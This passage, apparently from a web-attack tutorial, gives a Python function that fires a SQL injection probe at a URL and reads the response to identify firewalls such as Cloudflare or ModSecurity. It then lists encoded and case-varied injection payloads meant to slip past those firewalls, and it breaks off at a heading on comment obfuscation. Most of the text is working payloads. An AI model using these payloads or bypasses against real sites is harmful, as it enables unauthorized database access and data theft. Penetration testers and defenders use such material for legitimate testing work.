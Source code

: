 ##### **WAF Detection**

```python
def detect_waf(url):
    # Send malicious payload
    response = requests.get(f"{url}?id=1' OR '1'='1")

    # Check for WAF signatures
    waf_signatures = {
        "Cloudflare": ["cf-ray", "cloudflare"],
        "ModSecurity": ["mod_security", "Mod_Security"],
        "AWS WAF": ["AWSALB", "AWS"],
        "Imperva": ["incap_ses", "visid_incap"],
        "Akamai": ["akamai", "akamai-ghost"]
    }

    for waf, signatures in waf_signatures.items():
        for signature in signatures:
            if signature.lower() in response.text.lower() or \\\\
               signature.lower() in str(response.headers).lower():
                return waf

    return "Unknown/None"

```

##### **WAF Bypass Techniques**

**1. Encoding Bypasses:**

```sql
-- URL encoding
id=1%27%20OR%20%271%27%3D%271

-- Double URL encoding
id=1%2527%20OR%20%25271%2527%253D%25271

-- Unicode encoding
id=1\\\\u0027 OR \\\\u00271\\\\u0027=\\\\u00271

-- HTML entity encoding
id=1&#39; OR &#39;1&#39;=&#39;1

```

**2. Case Variation:**

```sql
-- Mixed case
SeLeCt * FrOm users
sElEcT * fRoM users

```

**3. Comment Obfuscation:**
